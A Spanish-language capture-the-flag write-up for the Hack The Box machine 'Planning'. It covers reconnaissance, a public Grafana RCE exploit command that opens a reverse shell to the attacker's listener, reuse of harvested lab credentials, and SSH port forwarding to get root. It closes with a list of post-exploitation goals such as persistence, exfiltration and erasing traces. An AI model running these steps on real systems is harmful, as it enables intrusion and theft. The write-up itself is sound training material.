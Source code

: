# Writeup - HTB "Planning"

## 1. Reconocimiento inicial

### Ping

```bash
ping 10.10.11.68
```

### Escaneo de puertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.68
```

#### Puertos abiertos encontrados:

* **22/tcp** - SSH
* **80/tcp** - HTTP

### Detección de versiones

```bash
nmap -p22,80 -sCV 10.10.11.68
```

#### Resultados relevantes:

* **22/tcp**: `OpenSSH 9.6p1 Ubuntu 3ubuntu13.11`
* **80/tcp**: `nginx 1.24.0 (Ubuntu)`

---

## 2. Enumeración web

### Modificación de `/etc/hosts`

Se añadió la siguiente entrada para poder acceder al sitio:

```
10.10.11.68 planning.htb
```

Al explorar la web principal, **no se encontró nada relevante**.

### Enumeración de subdominios

```bash
ffuf -u http://planning.htb/ -H "Host: FUZZ.planning.htb" -w /usr/share/amass/wordlists/all.txt -c -t 50 -fs 178
```

Se descubrió un subdominio interesante: **`grafana.planning.htb`**

---

## 3. Acceso a Grafana

Se añadió nuevamente al `/etc/hosts`:

```
10.10.11.68 grafana.planning.htb
```

En el login se detectó la **versión 11.0.0 de Grafana**.

### Búsqueda de vulnerabilidades

Se encontró el siguiente exploit público:

> [https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)

### Ejecución del exploit:

```bash
python poc.py --url http://grafana.planning.htb:80 \
              --username admin \
              --password 0D5oT70Fq13EvB5r \
              --reverse-ip 10.10.14.24 \
              --reverse-port 9001
```

### Listener:

```bash
nc -lvnp 9001
```

Se obtuvo una **reverse shell** exitosa.

---

## 4. Escalación de privilegios

### Variables de entorno:

```bash
env
```

Se descubrieron credenciales de administrador:

```
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```

---

## 5. Acceso SSH

Se usaron las credenciales anteriores para conectarse por SSH:

```bash
ssh enzo@10.10.11.68
# Contraseña: RioTecRANDEntANT!
```

### Bandera de usuario:

```
cat ~/user.txt
```

---

## 6. Exploración post-explotación

Se encontró un archivo en `/opt/crontabs/crontab.db` que contenía otra contraseña:

```
P4ssw0rdS0pRi0T3
```

---

## 7. Escalamiento lateral / acceso a puertos locales

Revisando los puertos abiertos:

```bash
ss -tulnp
```

Se encontró un servicio local en el puerto `8000`. Para acceder desde la máquina atacante se hizo un **port forwarding**:

```bash
ssh -L 8888:localhost:8000 enzo@10.10.11.68
# Contraseña: P4ssw0rdS0pRi0T3
```

Accediendo a `http://localhost:8888` desde el navegador se encontró una interfaz desde donde era posible ejecutar comandos como **root**.

### Ejecución de comandos:

Se creó un job que copiaba la flag de root:

```bash
cat /root/root.txt > /tmp/flag
```

Desde la sesión SSH se verificó la flag:

```bash
cat /tmp/flag
```

---

## 8. Post-Explotación
📌 Acciones posibles tras obtener acceso como root:

✅ Establecer persistencia
👤 Crear usuario oculto
🔐 Añadir clave pública SSH
📦 Exfiltrar información sensible
🌐 Explorar red interna
🔀 Pivoting hacia otras máquinas
🧹 Eliminar huellas
💣 Destruir el sistema (⚠️ no recomendado)
---
